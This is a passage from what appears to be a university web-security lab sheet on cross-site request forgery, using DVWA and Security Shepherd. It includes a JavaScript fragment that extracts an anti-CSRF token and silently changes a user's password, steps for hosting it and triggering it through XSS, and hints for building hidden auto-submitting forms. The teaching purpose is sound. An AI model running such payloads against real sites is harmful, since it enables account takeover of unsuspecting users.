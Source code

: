 ```
        if (!hacked) {
            alert('Got token:' + match[1]);
            hacked = true;
            xmlhttp.open("GET", new_url, false);
            xmlhttp.send();
            alert('Password changed to "' + pass + '"');
        }
        count++;
    }
};
document.addEventListener('DOMContentLoaded', function() {
xmlhttp.open("GET", theUrl, false );
xmlhttp.send();
}, false);
```

==action: Don't forget to use your PHP server to host the file, then invoke it by exploiting one of the XSS vulnerabilities==.

![][image-10]

==action: Finally, log in using the hacked password==.

## Log into Security Shepherd and work through assessed tasks {#log-into-security-shepherd-and-work-through-assessed-tasks}

> Flag: For this week, **complete the 8 challenges for:**

* **Cross-Site Request Forgery**

### Tips for all challenges {#tips-for-all-challenges}

> Tip: In order to complete this week's challenges, you will need to create another user

### Challenge 1 Tips {#challenge-1-tips}

> Hint: You don't need to include the `<img>` tag, only write the full URL that the challenge is asking for.

### Challenge 2 Tips {#challenge-2-tips}

> Hint: Your user id is the same as in challenge 1.

> Hint: You will need to create a simple HTML page with a hidden form that sends a POST request when loaded. Host it using your local PHP server.

### Challenge 3 Tips {#challenge-3-tips}

> Hint: Challenge 4 is much simpler, so do it first, then come back to this one.

### Challenge 6 Tips {#challenge-6-tips}


[^1]: Adapted from original payload published in: [https://hd7exploit.wordpress.com/2017/05/27/dvwa-csrf-high-level/](https://hd7exploit.wordpress.com/2017/05/27/dvwa-csrf-high-level/)
[image-1]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-10.png